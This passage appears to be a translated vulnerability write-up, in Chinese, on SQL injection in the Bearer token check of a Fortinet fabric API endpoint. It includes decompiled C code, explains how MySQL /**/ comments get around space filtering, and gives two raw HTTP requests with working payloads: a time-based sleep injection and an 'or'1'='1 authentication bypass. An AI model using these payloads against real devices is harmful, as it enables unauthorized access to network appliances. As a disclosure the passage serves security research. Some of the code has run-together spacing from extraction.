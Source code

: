 ```
    return0;
  v5 = 0;
if ( (unsignedint)fabric_user_db_init()
    || (unsignedint)refresh_fabric_user()
    || (unsignedint)get_fabric_user_by_token((constchar *)v4) )
  {
    return0;
  }
else
  {
    return2 * (unsignedint)((unsignedint)update_fabric_user_expire_time_by_token((constchar *)v4) == 0);
  }
}
```

  
  
现在明白了吗？非常简单。  
  
这个__isoc23_sscanfC 函数用于提取我们的输入——根据其格式字符串，它会在第一个空格处停止读取。这意味着我们不能在注入的查询中包含空格。经典之作。  
  
但当然，我们都已经存在了足够长的时间来记住过去的美好时光 - 以及古老的 MySQL 注释技巧：/**/。  
  
是时候把它掸掉灰尘并看看它的实际效果了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXr1hnQnmQfrGVaGlQULbw5dh5DVtEbssiarFHXa9u00eE9Hw2uwXnG4TA/640?wx_fmt=png&from=appmsg "")  
  
对于那些在家跟随的人来说，这是原始的 HTTP 请求：  
  

```
GET/api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'
```

  
  
我们相信您也能感受到我们的喜悦：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXriaF836cKHWEtKzyhhUyoibojhektgjhDRvWwibg7cq0icPnyXKkkqOY0tw/640?wx_fmt=png&from=appmsg "")  
  
现在让我们回到 80 年代（也称为现代 Fortinet），用经典的OR 1=1.  
  
这让我们可以完全绕过令牌检查，如果您希望检测漏洞的存在而又不全力进行利用，那么这尤其方便：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrqDOu2wqAWgiaKcGHTiaVWLgXODNzSEhfj5dSPG9ljia78MMciczjIpqia6Q/640?wx_fmt=png&from=appmsg "")  
  
对于那些在家跟随的人来说，这是原始的 HTTP 请求：  
  

```
GET/api/fabric/device/status HTTP/1.1
Host: 192.168.8.30
Authorization: Bearer AAAAAA'or'1'='1
```

  